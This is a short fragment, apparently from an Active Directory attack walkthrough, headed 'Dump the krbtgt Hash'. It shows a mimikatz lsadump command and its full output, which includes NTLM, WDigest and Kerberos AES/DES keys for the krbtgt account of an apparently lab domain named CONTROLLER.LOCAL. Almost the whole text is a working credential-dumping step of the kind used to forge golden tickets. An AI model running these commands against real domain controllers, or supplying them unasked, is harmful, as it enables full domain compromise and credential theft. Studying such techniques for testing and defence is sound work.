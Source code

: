 ### Dump the krbtgt Hash

```sh
mimikatz # lsadump::lsa /inject /name:krbtgt 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81 
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4 
    17  8552f561e937ad7c13a0dca4e9b0b25a
    18  cc18f1d9a1f4d28b58a063f69fa54f27
    19  12ae8a0629634a31aa63d6f422a14953
    20  b6392b0471c53dd2379dcc570816ba10
    21  7ab113cb39aa4be369710f6926b68094
    22  7ab113cb39aa4be369710f6926b68094
    23  e38f8bc728b21b85602231dba189c5be
    24  4700657dde6382cd7b990fb042b00f9e
    25  8f46d9db219cbd64fb61ba4fdb1c9ba7
    26  36b6a21f031bf361ce38d4d8ad39ee0f 
    27  e69385ee50f9d3e105f50c61c53e718e
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066 
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

